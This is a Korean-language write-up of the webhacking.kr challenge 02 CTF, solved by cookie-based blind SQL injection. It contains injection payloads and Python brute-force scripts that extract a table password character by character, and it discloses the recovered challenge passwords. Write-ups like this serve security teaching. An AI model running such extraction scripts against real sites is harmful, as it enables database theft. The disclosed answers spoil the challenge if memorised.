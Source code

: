 ================================================================================================================
[webhacking.kr] 02
================================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
        }
        step0 -> step1[label="time = '1 and 1=1'",arrowhead="normal"];
        step3 -> step2[label="<!--2070-01-01 09:00:01-->",arrowhead="normal"];
        step4 -> step5[label="time = '1 and 1=2'",arrowhead="normal"];
        step7 -> step6[label="<!--2070-01-01 09:00:00-->",arrowhead="normal"];
        step8 -> step9[label="time = 1 and (select if(length(password)>8,1,0) from FreeB0aRd)",arrowhead="normal"];
        step10 -> step11[label="time = 1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d",arrowhead="normal"];

    }

|

Source analysis
================================================================================================================

해당 html 소스 내에 주석 처리된 부분에 time이 출력되는 것을 볼 수 있는데, 쿠키 값에 time이 설정되어 있는 것으로 보아 해당 쿠키 값이 페이지 상에 출력되는 것으로 추측됩니다.

.. code-block:: html

    <html>
    <head>
    <title>Project Progress</title>
    </head>
    <body bgcolor=black>
    <center>
    <table width=970 bgcolor=white>
    <td colspan=5>
    <img src="img/new_main.jpg" alt="" usemap="#main.jpg" style="border: 0;" />
    <map name="main.jpg">
        <area shape="rect" coords="15,8,517,54" href="index.php" target="" alt="" />
        <area shape="rect" coords="339,63,403,93" href="about.php" target="" alt="" />
        <area shape="rect" coords="413,63,490,92" href="member.php" target="" alt="" />
        <area shape="rect" coords="500,63,582,92" href="research.php" target="" alt="" />
        <area shape="rect" coords="592,63,651,92" href="bbs/index.php" target="" alt="" />
        <area shape="rect" coords="662,64,745,93" href="fun.php" target="" alt="" />
        <area shape="rect" coords="756,63,825,93" href="contact.php" target="" alt="" />
        <area shape="rect" coords="851,7,890,65" href="admin/" target="" alt="" />

    </map>
    <br><center><br>
    </td><tr>
    </table>

    <table bgcolor=white width=976>
    <td width=88></td>
    <td width=800>
    <br>
    <center>
    <a href=index.php><img src=img/new.jpg border=0></a><br>
    <br><br>
    <!--2015-11-24 10:12:18--></td>
    <td width=88></td>
    </table>

    <table width=970 bgcolor=black>
    <td><br><center><font size=2 color=white>Copyright ¨Ï 2008 beistlab. All rights reserved</td>
    </table>

|

COOKIE Injection
================================================================================================================

Cookie 값 입력을 통해 True/False 여부를 확인합니다.

.. code-block:: console

    cookie = '1 and 1=1'  // True: <!--2070-01-01 09:00:01-->
    cookie = '1 and 1=2'  // False: <!--2070-01-01 09:00:00-->

|

Blind SQL Injection
================================================================================================================

테이블 명과 컬럼 명은 유추를 통해 확인할 수 있습니다.

- 테이블 명 : FreeB0aRd
- 컬럼명 : password

|

패스워드 길이 확인
================================================================================================================

다음 쿼리문을 입력해서 password 길이를 확인한다. 

- password 길이 : 9

.. code-block:: python

    import requests

    cookie = {
        "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
        "time":"1 and (select if(length(password)>8,1,0) from FreeB0aRd)"
    }
    url = "http://webhacking.kr/challenge/web/web-02/index.php"
    r = requests.get(url,cookies=cookie, verify=False)
       
    print r.content.split('<!--')[1].split('-->')[0]

|

패스워드 값 확인
================================================================================================================

다음 쿼리문을 입력해서 FreeB0aRd password 값을 확인한다.

- FreeB0aRd password : 7598522ae

.. code-block:: python

    import requests

    pw =""
    for i in range(1,10):
        for j in range(33,126):
            #print j
            cookie = {
                "PHPSESSID":"di0tppi0hjd8prirqbkkl6isj2",
                "time":"1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d" % (i,j)
            }

            url = "http://webhacking.kr/challenge/web/web-02/index.php"
            r = requests.get(url,cookies=cookie, verify=False)
            q = r.content.split('<!--')[1].split('-->')[0]
            if "09:00:01" in q:
                pw += chr(j)
                print pw
                break

    print pw

|

admin 패스워드 값 확인
================================================================================================================


확인된 패스워드를 패스워드가 걸려있는 게시판에 입력한 결과 하나의 다운로드 링크가 존재한다.
페이지에서 파일을 다운 받으면 __AdMiN__FiL2.zip 이라는 압축 파일이 존재하는데 해당 파일이 암호가 걸려있다.

해당 파일에 대한 패스워드는 admin 페이지에 존재하는 것으로 추측되며 admin 페이지 패스워드를 위와 같은 방식으로 찾는다.

- admin password: 0nly_admin

.. code-block:: html
    admin page

    Notice
    -관리자 패스워드가 유출되지 않게 조심하세요.
    -처음 사용하시는 분은 메뉴얼을 참고하세요.(메뉴얼 패스워드 : @dM1n__nnanual)


해당 패스워드로 압축 파일을 해제하면 인증 패스워드를 확인할 수 있다.
